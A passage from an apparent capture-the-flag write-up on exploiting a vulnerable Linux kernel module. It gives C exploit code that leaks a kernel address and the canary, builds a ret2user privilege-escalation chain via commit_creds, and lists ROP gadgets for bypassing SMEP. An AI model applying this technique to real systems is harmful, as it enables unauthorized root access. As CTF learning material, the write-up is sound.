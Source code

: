 ```c
    size_t base   =  u64(buf+0x20);
    printf("[+] Leaked Kernel Address => %p\n",base);
    printf("[+] Canary => %p\n",canary);

    // ret2user Space
    size_t * p = buf;
    size_t ct = 0x40/8;

    size_t prepare_creds    = base + (0xffffffff8109cce0-0xffffffff811dd6d1);
    size_t commit_cred      = base + (0xffffffff8109c8e0-0xffffffff811dd6d1);
    p[ct++] = canary;
    p[ct++] = 0xdeadbeef;
    p[ct++] = shellcode();
    p[ct++] = prepare_creds;
    p[ct++] = commit_cred;
    
    //Back to user space
    save_status();
    p[ct++] = shell;
    p[ct++] = user_cs;
    p[ct++] = user_rflags;
    p[ct++] = user_sp;
    p[ct++] = user_ss;


    // Attack
    write(fd,buf,0x100);
    size_t poc = 1;
    poc = (poc<<63) | 0x100;
    ioctl(fd,OOB,poc);  
}
```
# 0x04 rop
```c
qemu-system-x86_64 \
-m 2G \
-kernel ./bzImage \
-initrd  ./rootfs.img \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=0 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
-cpu qemu64,smep
```
Assume there is `smep` in this challenge so that we can't run the user code in the kernel, which means we have to find the gadgets in the kernel. There are several very helpful gadgets. I use `ropper` to get the gadgets from the kernel image. 

- pop [rigister]; ret;
- swapgs; popfq; ret;
- iretq; ret;


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core